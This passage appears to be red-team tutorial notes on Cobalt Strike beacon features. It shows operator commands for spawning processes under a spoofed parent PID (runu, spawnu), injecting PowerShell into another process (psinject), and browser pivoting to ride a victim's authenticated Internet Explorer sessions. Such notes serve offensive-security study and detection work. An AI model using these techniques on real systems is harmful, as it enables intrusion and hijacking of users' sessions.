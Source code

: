 ![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-33-51.png>)

### Runu

Runu allows us launching a new process from a specified parent process:

{% code title="attacker@cs" %}
```csharp
runu 2316 calc
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-39-20.png>)

### Psinject

This function allows an attacker executing powershell scripts from under any process on the victim system. Note that PID 2872 is the calc.exe process seen in the above screenshot related to `runu`:

{% code title="attacker@cs" %}
```csharp
beacon> psinject 2872 x64 get-childitem c:\
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-44-30.png>)

Highlighted in green are new handles that are opened in the target process when powershell script is being injected:

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-52-16.png>)

### Spawnu

Spawn a session with powershell payload from a given parent PID:

{% code title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-57-30.png>)

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-57-25.png>)

### Browser Pivoting

This feature enables an attacker riding on compromised user's browsing sessions.

The way this attack works is best explained with an example:

* Victim log's in to some web application using Internet Explorer.
* Attacker/operator creates a browser pivot by issuing a `browserpivot` command
* The beacon creates a proxy server on the victim system (in Internet Explorer process to be more precise) by binding and listening to a port, say 6605
* Team server binds and starts listening to a port, say 33912
* Attacker can now use their teamserver:33912 as a web proxy. All the traffic that goes through this proxy will be forwarded/traverse the proxy opened on the victim system via the Internet Explorer process (port 6605). Since Internet Explorer relies on WinINet library for managing web requests and authentication, attacker's web requests will be reauthenticated allowing the attacker to view same applications the victim has active sessions to without being asked to login.
